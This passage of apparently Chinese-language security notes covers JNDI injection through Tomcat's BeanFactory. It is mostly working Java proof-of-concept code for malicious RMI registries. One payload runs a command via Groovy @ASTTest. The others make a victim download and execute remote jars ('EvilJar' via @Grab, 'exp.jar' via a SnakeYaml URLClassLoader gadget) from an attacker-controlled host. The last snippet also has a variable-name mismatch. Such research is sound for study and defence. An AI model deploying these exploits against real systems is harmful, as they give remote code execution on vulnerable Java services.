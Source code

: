 ###### 使用`groovy.lang.GroovyShell#parse` + `@ASTTest / @Grab`

可以发现同样满足条件：

![image-20220713222900296](README/image-20220713222900296.png)

```java
        Registry registry = LocateRegistry.createRegistry(9999);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=parse"));
        ref.add(new StringRefAddr("x", "    @groovy.transform.ASTTest(value={\n" +
                "        assert Runtime.getRuntime().exec(\"calc\")\n" +
                "    })\n" +
                "    def x"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("test", referenceWrapper);
```

```java
        Registry registry = LocateRegistry.createRegistry(9999);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=parse"));
        ref.add(new StringRefAddr("x", "@GrabConfig(disableChecksums=true)\n" +
                "    @GrabResolver(name=\"Poc\", root=\"http://127.0.0.1:8888/\")\n" +
                "    @Grab(group=\"Poc\", module=\"EvilJar\", version=\"0\")\n" +
                "    import java.lang.String"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("test", referenceWrapper);
```

##### use  `org.apache.naming.factory.BeanFactory` +`SnakeYaml`

> tomcat组件
> SnakeYaml组件

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",true, "org.apache.naming.factory.BeanFactory", null);
String yaml = "!!javax.script.ScriptEngineManager [\n" +
        "  !!java.net.URLClassLoader [[\n" +
        "    !!java.net.URL [\"http://127.0.0.1:8888/exp.jar\"]\n" +
        "  ]]\n" +
        "]";
ref.add(new StringRefAddr("forceString", "a=load"));
ref.add(new StringRefAddr("a", yaml));
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWrapper);
```
